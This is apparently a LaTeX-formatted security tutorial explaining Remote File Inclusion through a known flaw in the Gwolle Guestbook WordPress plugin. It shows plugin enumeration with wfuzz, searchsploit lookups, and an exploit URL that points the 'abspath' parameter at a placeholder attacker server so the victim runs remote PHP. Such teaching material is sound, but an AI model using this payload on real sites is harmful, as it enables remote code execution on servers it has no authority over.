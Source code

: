\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\hypertarget{rfi-remote-file-inclusion}{%
\section*{RFI (Remote File inclusion)}\label{rfi-remote-file-inclusion}}

\textbf{RFI} is a vulnerability similar to the \textbf{LFI} but using a necessary third part. Instead of looking for internal files,
\textbf{RFI} vulnerability allows the system or the service to look also, throw internet, of files from services located in an external
Server.

Let's take the example of an existing RFI vulnerability from \emph{gwolle-gb} wordpress plugin:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://127.0.0.1/fuzz}

\CommentTok{#Output}
\ExtensionTok{Payload}\NormalTok{ : }\StringTok{"wp-content/plugins/gwolle-gb"}

\ExtensionTok{searchsploit}\NormalTok{ gwolle}
\CommentTok{#Output}
\ExtensionTok{WordPress}\NormalTok{ Plugin Gwolle Guestbook 1.5.3 - Remote File inclusion  }\KeywordTok{|}  \ExtensionTok{php/webapps/38861.txt}

\ExtensionTok{searchsploit}\NormalTok{ -x php/webapps/388861.txt}
\CommentTok{#Output}
\ExtensionTok{HTTP}\NormalTok{ GET parameter }\StringTok{"abspath"}\NormalTok{ is not being properly sanitized before being used in PHP require() }\KeywordTok{function}\BuiltInTok{.} \ExtensionTok{A}\NormalTok{ remote attacker can include a file named }\StringTok{'wp-load.php'}\NormalTok{ from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious }\StringTok{'wp-load.php'}\NormalTok{ file into his server document root and includes server}\StringTok{'s URL into request:}
\StringTok{http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]}
\end{Highlighting}
\end{Shaded}

In this case you can see that because of the fact that this plugin is not properly sanitized, the require method is looking for a wp-load.php file that can come from
another computer.
\end{document}
